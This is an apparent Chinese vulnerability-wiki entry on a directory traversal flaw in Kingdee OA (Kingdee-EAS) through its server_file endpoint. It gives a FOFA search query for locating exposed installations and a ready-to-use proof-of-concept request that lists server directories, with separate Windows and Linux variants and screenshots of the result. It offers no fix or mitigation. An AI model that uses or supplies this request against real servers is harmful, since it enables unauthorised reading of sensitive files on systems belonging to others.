 # 金蝶OA server_file 目录遍历漏洞

## 漏洞描述

金蝶OA server_file 存在目录遍历漏洞，攻击者通过目录遍历可以获取服务器敏感信息

## 漏洞影响

> [!NOTE]
>
> 金蝶OA

## FOFA

> [!NOTE]
>
> app="Kingdee-EAS"

## 漏洞复现

登录界面为

![image-20210603132948792](http://wikioss.peiqi.tech/vuln/image-20210603132948792.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

漏洞POC

```
/appmonitor/protected/selector/server_file/files?folder=/&suffix=
```

![image-20210603133022065](C:/Users/peiqi/AppData/Roaming/Typora/typora-user-images/image-20210603133022065.png)

```
Windows服务器

appmonitor/protected/selector/server_file/files?folder=C://&suffix=

Linux服务器
appmonitor/protected/selector/server_file/files?folder=/&suffix=
```

![image-20210603133136331](http://wikioss.peiqi.tech/vuln/image-20210603133136331.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

